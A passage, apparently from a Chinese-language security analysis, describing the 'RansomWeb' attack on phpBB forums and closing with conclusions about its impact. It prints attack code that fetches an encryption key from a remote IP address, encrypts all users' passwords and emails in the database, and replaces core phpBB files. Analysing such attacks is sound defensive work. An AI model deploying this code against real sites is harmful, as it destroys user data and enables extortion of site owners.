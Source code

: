 ```
} 
$key=file_get_contents(\'https://103.13.120.108/sfdoif89d7sf8d979dfgf/ 
sdfds90f8d9s0f8d0f89.txt\'); 
$cipher=new Cipher($key);'."\n"; 
if( FALSE !== file_put_contents($file, $txt, FILE_APPEND | LOCK_EX)){ 
 echo "DONE!"; 
};

```

第二个安装文件加密所有用户的 email 和 password，并替换上述文件。

```
<?php 
define('IN_PHPBB', true); 
$phpbb_root_path = (defined('PHPBB_ROOT_PATH')) ? PHPBB_ROOT_PATH : '../';
$phpEx = substr(strrchr(__FILE__, '.'), 1); 
include($phpbb_root_path . 'common.' . $phpEx); 
include($phpbb_root_path . 'includes/functions_display.' . $phpEx); 
$sql = 'SELECT user_id, user_password, user_email FROM ' . USERS_TABLE; 
$result = $db->sql_query($sql); 
while ($row = $db->sql_fetchrow($result)) 
{ 
 $sql2 = 'UPDATE ' . USERS_TABLE . ' 
  SET 
   user_password = "'.$cipher->encrypt($row['user_password']).'", 
   user_email = "'.$cipher->encrypt($row['user_email']).'" 
  WHERE user_id = '.$row['user_id']; 
 $result2 = $db->sql_query($sql2); 
} 
echo "SQL UPDATED!<br>"; 
copy('factory.php', '../phpbb/db/driver/factory.php'); 
copy('functions_user.php', '../includes/functions_user.php'); 
copy('ucp_activate.php', '../includes/ucp/ucp_activate.php'); 
copy('ucp_profile.php', '../includes/ucp/ucp_profile.php'); 
echo "FILES UPDATED!”;

```

接着攻击者等待两个月，就从远程服务器中取出密钥。

## 0x03 结论

* * *

我们称这种攻击为 RansomWeb , 我们做了一个简要的分析：

RansomWeb 的特点

1 与 ddos 不同，这种攻击会对网站的可用性造成长时间的巨大影响。

2 不仅可以用于勒索，还可以用于其他很多用途。

3 不给钱想从攻击中恢复很困难。
